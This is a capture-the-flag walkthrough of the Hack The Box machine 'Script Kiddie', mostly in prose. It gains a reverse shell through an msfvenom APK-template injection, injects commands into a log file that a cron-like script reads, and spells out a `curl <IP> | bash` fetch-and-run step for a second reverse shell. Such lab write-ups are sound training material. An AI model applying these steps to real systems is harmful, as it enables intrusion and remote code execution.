

# Script Kiddie Writeup (Hack The Box) by [yaguine](https://github.com/yaguine)

### objetive 
* user flag
* root flag

---

## user flag

### nmap 

  

### web

we are greeted with a hand-made webpage that let you execute some commands  
  

you can execute `searchsploit`, `nmap` and `msfvenom` and choose some of its values  
i try a little bit of command injection but i can't  

the "template file" on the "msfvenom" part caught my eye  
i google it, and while doing it, google auto-fills with "msfvenom template exploit"  
seems like in some versions of msfvenom, you cand use a malicious ".apk" as template file for android  
that allows you to execute commands  

i discover the module *exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection*  
this module creates an ".apk" that makes the target send a reverse shell to the selected IP and PORT  
we setup a **netcat listener** and choose "os=android" and our file as template file on the website  
  

we click "generate"... and voilá !! we have a reverse shell as "kid" and user.txt !!!

--- 

## root flag

it seems like */home/pwn/scanlosers.sh* is an interesting file  
  

it looks like its reading every line of */home/kid/logs/hackers*  
it's cutting the line in blank spaces and selecting the 3rd element to use it as IP in nmap  
with a little bit of try an error, looks like its executing right after modifying the file *hackers*  
i believe this has to be vulnerable to command injection  

### exploiting the script

first, as proof of concept, im gonna curl a netcat listener  
  

i use double quotes so the command "cut" doesn't apply to the payload, and backsticks to execute an additional command  
lets save the file...  
  
it works !!!!

so now you can get a reverse shell as *pwn*  
there are a lot of techniques to choose  
my favorite one goes as follows :
* create a bash script with a reverse shell payload directed to your machine on a chosen port named "index.html"
* start a http server on the same location as the script
* start a netcat listener on the chosen port
* inject the following command : `curl <IP> | bash`
* you should have a reverse shell

### from "pwn" to "root"  

this one is pretty trivial  
  

after using Metasploit with sudo privileges, we can directly execute system commands on the metasploit shell  
  
